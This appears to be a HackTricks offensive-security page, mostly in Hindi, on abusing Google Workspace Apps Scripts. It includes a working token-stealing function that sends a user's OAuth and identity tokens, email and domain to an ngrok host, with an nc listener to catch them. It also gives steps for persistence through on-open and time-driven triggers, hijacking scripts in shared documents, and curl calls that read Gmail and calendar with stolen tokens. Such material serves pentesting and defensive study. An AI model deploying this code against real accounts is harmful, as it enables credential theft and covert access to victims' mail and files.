 # GWS - App Scripts

{{#include ../../../banners/hacktricks-training.md}}

## App Scripts

App Scripts वह **कोड है जो तब सक्रिय होगा जब कोई संपादक अनुमति वाला उपयोगकर्ता उस दस्तावेज़ तक पहुंचता है जिसके साथ App Script जुड़ा हुआ है** और **OAuth प्रॉम्प्ट स्वीकार करने के बाद**।\
इन्हें App Script के मालिक द्वारा **हर निश्चित समय पर निष्पादित** करने के लिए भी सेट किया जा सकता है (Persistence).

### Create App Script

App Script बनाने के कई तरीके हैं, हालांकि सबसे सामान्य तरीके **Google Document (किसी भी प्रकार का)** से और **स्वतंत्र परियोजना** के रूप में हैं:

<details>

<summary>Create a container-bound project from Google Docs, Sheets, or Slides</summary>

1. एक Docs दस्तावेज़, एक Sheets स्प्रेडशीट, या Slides प्रस्तुति खोलें।
2. **Extensions** > **Google Apps Script** पर क्लिक करें।
3. स्क्रिप्ट संपादक में, **Untitled project** पर क्लिक करें।
4. अपने प्रोजेक्ट का नाम दें और **Rename** पर क्लिक करें।

</details>

<details>

<summary>Create a standalone project</summary>

Apps Script से एक स्वतंत्र परियोजना बनाने के लिए:

1. [`script.google.com`](https://script.google.com/) पर जाएं।
2. **New Project** जोड़ें पर क्लिक करें।
3. स्क्रिप्ट संपादक में, **Untitled project** पर क्लिक करें।
4. अपने प्रोजेक्ट का नाम दें और **Rename** पर क्लिक करें।

</details>

<details>

<summary>Create a standalone project from Google Drive</summary>

1. [Google Drive](https://drive.google.com/) खोलें।
2. **New** > **More** > **Google Apps Script** पर क्लिक करें।

</details>

<details>

<summary>Create a container-bound project from Google Forms</summary>

1. Google Forms में एक फॉर्म खोलें।
2. More more_vert > **Script editor** पर क्लिक करें।
3. स्क्रिप्ट संपादक में, **Untitled project** पर क्लिक करें।
4. अपने प्रोजेक्ट का नाम दें और **Rename** पर क्लिक करें।

</details>

<details>

<summary>Create a standalone project using the clasp command line tool</summary>

`clasp` एक कमांड लाइन टूल है जो आपको टर्मिनल से Apps Script परियोजनाएँ बनाने, खींचने/धकेलने और तैनात करने की अनुमति देता है।

अधिक जानकारी के लिए [Command Line Interface using `clasp` guide](https://developers.google.com/apps-script/guides/clasp) देखें।

</details>

## App Script Scenario <a href="#create-using-clasp" id="create-using-clasp"></a>

### Create Google Sheet with App Script

एक App Script बनाने से शुरू करें, इस परिदृश्य के लिए मेरी सिफारिश है कि एक Google Sheet बनाएं और **`Extensions > App Scripts`** पर जाएं, इससे आपके लिए **शीट से जुड़ा एक नया App Script खुलेगा**।

### Leak token

OAuth टोकन तक पहुंच देने के लिए आपको **`Services +` पर क्लिक करना होगा और स्कोप जोड़ना होगा जैसे**:

- **AdminDirectory**: निर्देशिका के उपयोगकर्ताओं और समूहों तक पहुंच (यदि उपयोगकर्ता के पास पर्याप्त अनुमतियाँ हैं)
- **Gmail**: Gmail डेटा तक पहुंचने के लिए
- **Drive**: ड्राइव डेटा तक पहुंचने के लिए
- **Google Sheets API**: ताकि यह ट्रिगर के साथ काम करे

अपने लिए **आवश्यक स्कोप** बदलने के लिए आप प्रोजेक्ट सेटिंग्स में जा सकते हैं और सक्षम कर सकते हैं: **`Show "appsscript.json" manifest file in editor`.**
```javascript
function getToken() {
var userEmail = Session.getActiveUser().getEmail()
var domain = userEmail.substring(userEmail.lastIndexOf("@") + 1)
var oauthToken = ScriptApp.getOAuthToken()
var identityToken = ScriptApp.getIdentityToken()

// Data json
data = {
oauthToken: oauthToken,
identityToken: identityToken,
email: userEmail,
domain: domain,
}

// Send data
makePostRequest(data)

// Use the APIs, if you don't even if the have configured them in appscript.json the App script won't ask for permissions

// To ask for AdminDirectory permissions
var pageToken = ""
page = AdminDirectory.Users.list({
domain: domain, // Use the extracted domain
orderBy: "givenName",
maxResults: 100,
pageToken: pageToken,
})

// To ask for gmail permissions
var threads = GmailApp.getInboxThreads(0, 10)

// To ask for drive permissions
var files = DriveApp.getFiles()
}

function makePostRequest(data) {
var url = "http://5.tcp.eu.ngrok.io:12027"

var options = {
method: "post",
contentType: "application/json",
payload: JSON.stringify(data),
}

try {
UrlFetchApp.fetch(url, options)
} catch (e) {
Logger.log("Error making POST request: " + e.toString())
}
}
```
आप अनुरोध को कैप्चर करने के लिए बस यह चला सकते हैं:
```bash
ngrok tcp 4444
nc -lv 4444 #macOS
```
Permissions requested to execute the App Script:

<figure><img src="../../../images/image (334).png" alt=""><figcaption></figcaption></figure>

> [!WARNING]
> चूंकि एक बाहरी अनुरोध किया गया है, OAuth प्रॉम्प्ट भी **बाहरी एंडपॉइंट्स तक पहुँचने की अनुमति मांगता है**।

### Create Trigger

एक बार जब ऐप पढ़ लिया जाए, तो **⏰ Triggers** पर क्लिक करें ताकि एक ट्रिगर बनाया जा सके। **function** के लिए **`getToken`** चुनें, जो तैनाती पर **`Head`** पर चलता है, इवेंट स्रोत में **`From spreadsheet`** चुनें और इवेंट प्रकार में **`On open`** या **`On edit`** (आपकी आवश्यकताओं के अनुसार) चुनें और सहेजें।

ध्यान दें कि आप **Executions टैब में ऐप स्क्रिप्ट के रन की जांच कर सकते हैं** यदि आप कुछ डिबग करना चाहते हैं।

### Sharing

**App Script** को **trigger** करने के लिए पीड़ित को **Editor Access** के साथ कनेक्ट करना होगा।

> [!TIP]
> **App Script** को निष्पादित करने के लिए उपयोग किया जाने वाला **token** **trigger के निर्माता** का होगा, भले ही फ़ाइल को अन्य उपयोगकर्ताओं द्वारा संपादक के रूप में खोला गया हो।

### Abusing Shared With Me documents

> [!CAUTION]
> यदि किसी ने **आपके साथ एक दस्तावेज़ साझा किया है जिसमें App Scripts और एक ट्रिगर है जो ऐप स्क्रिप्ट के Head का उपयोग करता है** (निश्चित तैनाती नहीं), तो आप ऐप स्क्रिप्ट कोड को संशोधित कर सकते हैं (उदाहरण के लिए, चोरी करने वाले टोकन फ़ंक्शन जोड़ना), इसे एक्सेस कर सकते हैं, और **App Script उन उपयोगकर्ता की अनुमतियों के साथ निष्पादित होगा जिसने आपके साथ दस्तावेज़ साझा किया**! (ध्यान दें कि मालिक का OAuth टोकन उस पहुंच स्कोप के साथ होगा जो ट्रिगर बनाने के समय दिए गए थे)।
>
> एक **सूचना स्क्रिप्ट के निर्माता को भेजी जाएगी कि किसी ने स्क्रिप्ट को संशोधित किया है** (क्या अलर्ट को रोकने के लिए फ़िल्टर उत्पन्न करने के लिए जीमेल अनुमतियों का उपयोग करने के बारे में?) 

> [!TIP]
> यदि एक **हमलावर App Script के स्कोप को संशोधित करता है**, तो अपडेट **दस्तावेज़ पर लागू नहीं होंगे** जब तक कि एक **नया ट्रिगर** परिवर्तनों के साथ नहीं बनाया जाता। इसलिए, एक हमलावर ट्रिगर में सेट किए गए स्कोप से अधिक स्कोप के साथ मालिक के निर्माता टोकन को चुराने में असमर्थ होगा।

### Copying instead of sharing

जब आप एक दस्तावेज़ साझा करने के लिए एक लिंक बनाते हैं, तो एक लिंक इस तरह का बनाया जाता है: `https://docs.google.com/spreadsheets/d/1i5[...]aIUD/edit`\
यदि आप **"/edit"** के अंत को **"/copy"** में **बदलते हैं**, तो इसे एक्सेस करने के बजाय गूगल आपसे पूछेगा कि क्या आप **दस्तावेज़ की एक प्रति उत्पन्न करना चाहते हैं:**

<figure><img src="../../../images/image (335).png" alt=""><figcaption></figcaption></figure>

यदि उपयोगकर्ता इसे कॉपी करता है और इसे एक्सेस करता है, तो **दस्तावेज़ की सामग्री और App Scripts दोनों को कॉपी किया जाएगा**, हालाँकि **ट्रिगर नहीं होंगे**, इसलिए **कुछ भी निष्पादित नहीं होगा**।

### Sharing as Web Application

ध्यान दें कि **App Script को एक वेब एप्लिकेशन के रूप में साझा करना भी संभव है** (App Script के संपादक में, एक वेब एप्लिकेशन के रूप में तैनात करें), लेकिन इस तरह का एक अलर्ट दिखाई देगा:

<figure><img src="../../../images/image (337).png" alt=""><figcaption></figcaption></figure>

इसके बाद आवश्यक अनुमतियों के लिए **टिपिकल OAuth प्रॉम्प्ट** आएगा।

### Testing

आप एक एकत्रित टोकन का परीक्षण कर सकते हैं ताकि ईमेल सूचीबद्ध की जा सके:
```bash
curl -X GET "https://www.googleapis.com/gmail/v1/users/<user@email>/messages" \
-H "Authorization: Bearer <token>"
```
उपयोगकर्ता का कैलेंडर सूचीबद्ध करें:
```bash
curl -H "Authorization: Bearer $OAUTH_TOKEN" \
-H "Accept: application/json" \
"https://www.googleapis.com/calendar/v3/users/me/calendarList"
```
## App Script के रूप में स्थिरता

स्थिरता के लिए एक विकल्प होगा **एक दस्तावेज़ बनाना और getToken** फ़ंक्शन के लिए एक ट्रिगर जोड़ना और दस्तावेज़ को हमलावर के साथ साझा करना ताकि हर बार जब हमलावर फ़ाइल खोलता है, वह **पीड़ित का टोकन निकालता है।**

यह भी संभव है कि एक App Script बनाई जाए और इसे हर X समय (जैसे हर मिनट, घंटे, दिन...) ट्रिगर किया जाए। एक हमलावर जिसने **पीड़ित के क्रेडेंशियल्स या सत्र को समझौता किया है, वह एक App Script समय ट्रिगर सेट कर सकता है और हर दिन एक बहुत ही विशेषाधिकार प्राप्त OAuth टोकन लीक कर सकता है**:

बस एक App Script बनाएं, ट्रिगर्स पर जाएं, Add Trigger पर क्लिक करें, और घटना स्रोत के रूप में Time-driven चुनें और उन विकल्पों का चयन करें जो आपके लिए सबसे उपयुक्त हैं:

<figure><img src="../../../images/image (336).png" alt=""><figcaption></figcaption></figure>

> [!CAUTION]
> यह एक सुरक्षा अलर्ट ईमेल और आपके मोबाइल पर इस बारे में एक पुश संदेश बनाएगा।

### साझा दस्तावेज़ अवेरिफाइड प्रॉम्प्ट बायपास

इसके अलावा, यदि किसी ने **आपके साथ** **संपादक पहुंच** के साथ एक दस्तावेज़ साझा किया है, तो आप **दस्तावेज़ के अंदर App Scripts उत्पन्न कर सकते हैं** और **दस्तावेज़ का OWNER (निर्माता) App Script का मालिक होगा**।

> [!WARNING]
> इसका मतलब है कि **दस्तावेज़ का निर्माता किसी भी App Script का निर्माता के रूप में दिखाई देगा** जिसे कोई भी संपादक पहुंच के साथ इसके अंदर बनाता है।
>
> इसका मतलब यह भी है कि **App Script को दस्तावेज़ के निर्माता के Workspace वातावरण द्वारा विश्वसनीय माना जाएगा**।

> [!CAUTION]
> इसका मतलब यह भी है कि यदि एक **App Script पहले से मौजूद है** और लोगों ने **पहुँच दी है**, तो दस्तावेज़ पर **संपादक** अनुमति वाले कोई भी व्यक्ति **इसे संशोधित कर सकता है और उस पहुंच का दुरुपयोग कर सकता है।**\
> इसका दुरुपयोग करने के लिए आपको लोगों को App Script को ट्रिगर करने की भी आवश्यकता है। और एक अच्छा ट्रिक है कि **स्क्रिप्ट को एक वेब ऐप के रूप में प्रकाशित करें**। जब **लोग** जो पहले से **पहुँच** दे चुके हैं, वेब पृष्ठ तक पहुँचते हैं, तो वे **App Script को ट्रिगर करेंगे** (यह `<img>` टैग का उपयोग करके भी काम करता है)।

{{#include ../../../banners/hacktricks-training.md}}
